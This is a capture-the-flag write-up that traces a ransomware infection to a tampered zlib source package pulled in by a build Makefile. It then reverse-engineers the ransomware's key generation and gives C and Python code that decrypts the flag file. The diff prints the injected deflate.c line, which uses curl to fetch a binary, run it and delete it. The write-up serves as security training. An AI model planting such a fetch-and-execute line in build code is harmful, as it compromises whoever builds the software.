 # T2D2: Reclusive Ransomware

## Problem Description
Uh oh! One of your engineers just reported that all of their files were encrypted by ransomware. This is bad news; we need to figure out how this ransomware infected the engineer before it can spread to other machines! Overworked and underpaid as you are, we're going to require you to do not only that but also to fix their files by cracking the encryption scheme! A trivial task for a learned lion such as yourself.

Here's what we know: this engineer had just cloned down and built an internal tool code repository to work on it when the ransomware hit, so we suspect there might be an insider threat at play. Another thing we know is that the ransomware binary deleted itself after running so we don't have a copy for you to analyze. Hopefully, you can find it when you figure out the attack vector. Finally, we have a sample file for you to decrypt once you've cracked the scheme; your payment of one CTF challenge flag is inside!

### Resources
- https://github.com/luckiest-lion/lionctl
- [Encoded Flag (text file)](resources/flag.txt.enc)

## Objectives
Find the flag inside the file.

## Approach and Solution
This was kind of a fun challenge. 

### Verifying Hashes
First things first: let's clone that git repository. We have a whole bunch of files, but it's likely that the one file we need to look at is the Makefile. Indeed, when we look at it, we see this comment:

```Makefile
# TODO: My manager told me to verify the artifact hashes with the below instructions, 
# 		but I'm too lazy so I'll do it later ¯\_(ツ)_/¯ What's the worst that could happen?
# verify:
# 	Test that each artifact's sha256 sum is equal to https://target-flask.chals.io/repository/<artifact name>/hash
#   e.g.: sha256sum openssl.tar.gz == the response from https://target-flask.chals.io/repository/openssl-3.3.1.tar.gz
```

So our next step is pretty clear--we need to modify the Makefile to verify the SHA-256 sums before it builds. To do that, I just add the following section right before the `build` section:

```Makefile
verify:
	@echo "Verifying hashes..."
	@hash_mismatch=0; \
	for url in $(OPENSSL_URL) $(CURL_URL) $(ZLIB_URL) $(LIBXML2_URL) $(CJSON_URL) $(SQLITE3_URL) $(LIBPNG_URL); do \
		artifact=$$(basename $$url); \
		expected_hash=$$(curl -s https://target-flask.chals.io/repository/$$artifact/hash); \
		computed_hash=$$(sha256sum $(BUILD_DIR)/$$artifact | awk '{ print $$1 }'); \
		if [ "$$expected_hash" != "$$computed_hash" ]; then \
			echo "Hash mismatch for $$artifact: expected $$expected_hash, got $$computed_hash"; \
			hash_mismatch=1; \
		else \
			echo "$$artifact verified"; \
		fi; \
	done; \
	if [ "$$hash_mismatch" -eq 1 ]; then \
		echo "Some hashes did not match."; \
		exit 1; \
	else \
		echo "All hashes verified successfully."; \
		exit 0; \
	fi
```

Now we can run `make verify` in the terminal to verify the hashes. This results in the following output:
```
Verifying hashes...
openssl-3.3.1.tar.gz verified
curl-8.9.1.tar.gz verified
Hash mismatch for zlib-1.3.1.tar.gz: expected 9a93b2b7dfdac77ceba5a558a580e74667dd6fede4585b91eefb60f03b72df23, got 3205c09cfdfdeb44f508dea69fe864d171ccf48840af5fd65bbd64c8c33d8bb2
libxml2-2.13.3.tar.xz verified
cJSON-1.7.18.zip verified
sqlite-autoconf-3460100.tar.gz verified
libpng-1.6.43.tar.gz verified
Some hashes did not match.
make: *** [verify] Error 1
```

So we can see here that we have a hash mismatch for the `zlib` package. 

### Investigating the Corrupted Package
We can pull the corrupted `zlib` package using `wget`.

`wget https://target-flask.chals.io/repository/zlib-1.3.1.tar.gz`

and then all we need to do is simply untar it.

We also pull a non-corrupted version of `zlib` from the Internet:

`wget https://github.com/madler/zlib/releases/download/v1.3.1/zlib-1.3.1.tar.gz`

and unpack that tar as well.

Once both are untarred, the next step is just to run the `diff` command on both directories. Running diff against the two of them results in this:

```
diff zlib-1.3.1/deflate.c build/zlib-1.3.1/deflate.c
949a950,951
>     system("curl -s -o /tmp/evil http://target-httpd.chals.io/qQYX826mR4jJwAP3GS97yd && chmod +x /tmp/evil && /tmp/evil flag.txt && rm /tmp/evil");
> 
```

Great! Now we have another URL that we can `curl` from. So let's `curl` this URL and continue analyzing.

We get some file `qQYX826mR4jJwAP3GS97yd` (you can rename this if you want). 

### Analyzing the Mysterious File
Running `file` on this downloaded file gives us the following:

```
ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=3a33916b59f8b45fd3bafd5ac0135e5d35efbfd2, for GNU/Linux 3.2.0, not stripped
```

So this means it is most likely a C or C-adjacent compiled program. Let's open it in Binary Ninja (you can also use Ghidra). I actually used Ghidra when I was doing this for the competition, but I already had Binary Ninja up and running at the time of writing this writeup, so we'll just stick with that.

Here is the decompiled main function in Binary Ninja:

![main function](img/d2-1.png)

We can see here that there are two functions that are called: `generate_password` and `aes_encrypt_file`.

Looking at those functions, we see this:

![generate_password function](img/d2-2.png)
![aes_encrypt function](img/d2-3.png)

There's a lot of weird computer math here, which means that even though it is tempting to write this in Python, it's better to just write in in C. We also see that the password is based directly on the name of the file that is being encrypted, so we can generate the same password if we have the name of the file.

The C program I wrote to generate the program is as follows:

```c
#include <stdio.h>
#include <string.h>

void generate_password(long param_1) {
    char cVar1;
    size_t sVar2;
    int local_24;
    unsigned long local_18 = 0xbebafecaefbeadde; // note that I got this from Ghidra, not Binary Ninja
    
    // Setup
    char *param_2 = "flag.txt";
    int param_3 = 0x20;
    sVar2 = strlen(param_2);
    
    // Password generation loop
    // This is pretty much just copy and pasting the logic from Ghidra
    for (local_24 = 0; local_24 < param_3; local_24++) {
        *(unsigned char *)(param_1 + local_24) =
             *(unsigned char *)((long)&local_18 + (long)(local_24 % 8)) ^ param_2[local_24 % (int)sVar2];
        cVar1 = *(char *)(param_1 + local_24);
        *(char *)(param_1 + local_24) =
             cVar1 + ((char)((short)(cVar1 * 0x100af) >> 0xe) - (cVar1 >> 7)) * -0x5e + '!';
    }

}

int main() {
    char password[0x30] = {0}; 
    generate_password((long)password);
    
    printf("Generated password: ");
    for (int i = 0; i < 0x20; i++) {
        printf("%02x", (unsigned char)password[i]);
    }
    printf("\n");

    return 0;
}

```

Running this gives us a hex password of `d9e200070509e3ebd9e200070509e3ebd9e200070509e3ebd9e200070509e3eb`. From here, since we have the AES key, we can just reverse the AES encryption using the function we discovered earlier. Analyzing the fucntion, we can see that the IV used in this AES encryption is just all 0's, so we just need 16 bytes of 0. Then we create the AES cipher with it, and decrypt the ciphertext with the new AES cipher. For this part, I wrote a Python script:

```python
from Crypto.Cipher import AES
import hashlib

def decrypt_aes_file(encrypted_file_path, decrypted_file_path, hex_password):
    binary_password = bytes.fromhex(hex_password)

    iv = b'\x00' * 16

    with open(encrypted_file_path, 'rb') as f:
        ciphertext = f.read()

    cipher = AES.new(binary_password, AES.MODE_CFB, iv=iv, segment_size=128)

    decrypted_data = cipher.decrypt(ciphertext)

    with open(decrypted_file_path, 'wb') as f:
        f.write(decrypted_data)

    print(f"Decryption complete, file saved as '{decrypted_file_path}'")

hex_password = "d9e200070509e3ebd9e200070509e3ebd9e200070509e3ebd9e200070509e3eb"
encrypted_file_path = "flag.txt.enc" 
decrypted_file_path = "decrypted_flag.txt" 

decrypt_aes_file(encrypted_file_path, decrypted_file_path, hex_password)

```

And when we open up our `decrypted_flag.txt`, we get:

`flag{stand_and_deliver_your_money_or_your_files!}`

## Rabbit Holes